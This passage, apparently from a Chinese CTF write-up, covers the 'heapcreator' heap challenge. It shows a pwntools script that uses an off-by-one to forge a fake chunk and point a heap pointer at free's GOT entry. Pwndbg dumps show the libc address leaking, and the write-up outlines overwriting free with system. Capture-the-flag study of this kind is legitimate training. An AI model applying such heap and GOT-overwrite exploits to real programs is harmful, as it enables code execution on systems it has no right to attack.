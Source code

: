 既然有输出功能我们不妨从泄露libc的思路上下手，那么回归本质就是构造unsortedbin区块

我们这里有off by one 可以构造一个fake chunk 当我们释放掉fake chunk 再申请回来时往里面写入某个函数的got表

再去show出来的时候got就会自动寻址到real_addr然后打印出来。

```python
alloc(0x18,'bbbb')
alloc(0x10,'aaaa')
#gdb.attach(p)
pause()
elf = ELF('./heapcreator')
libc = ELF('./libc-2.23.so')
edit(0,'/bin/sh\x00'+'b'*0x10 +'\x41')#fake chunk
pause()
dele(1)#unsortedbin
pause()
alloc(0x30,p64(0)*4+p64(0x30)+p64(elf.got['free']))#for leak libc
gdb.attach(p)
```



```c
pwndbg> x/32gx 0x90f000
0x90f000:	0x0000000000000000	0x0000000000000021
0x90f010:	0x0000000000000018	0x000000000090f030
0x90f020:	0x0000000000000000	0x0000000000000021
0x90f030:	0x0068732f6e69622f	0x6262626262626262
0x90f040:	0x6262626262626262	0x0000000000000041
0x90f050:	0x0000000000000000	0x0000000000000000
0x90f060:	0x0000000000000000	0x0000000000000000
0x90f070:	0x0000000000000030	0x0000000000602018 //free的got地址

```

我们有了libc_base之后就可以算出system的真实地址等下直接edit chunk1往里面写入system的地址就ok了

我们看看内存吧(#^.^#)‘

这是更改前的存入chunk1中的free的got表

0x602018:	0x00007fa439c5a540	0x00000000004006a6

这里不难看出0x00007fa439c5a540	这个地址就是free的real_addr

```c
pwndbg> x/32gx 0x0602018
0x602018:	0x00007fa439c5a540	0x00000000004006a6
0x602028:	0x00007fa439c456a0	0x00000000004006c6
0x602038:	0x00007fa439c2b810	0x00007fa439ccd350
0x602048:	0x00007fa439bf6750	0x00007fa439c5a180
0x602058:	0x00007fa439c45e80	0x00007fa439c0ce90
0x602068:	0x0000000000400736	0x0000000000000000
0x602078:	0x0000000000000000	0x00007fa439f9b620

```
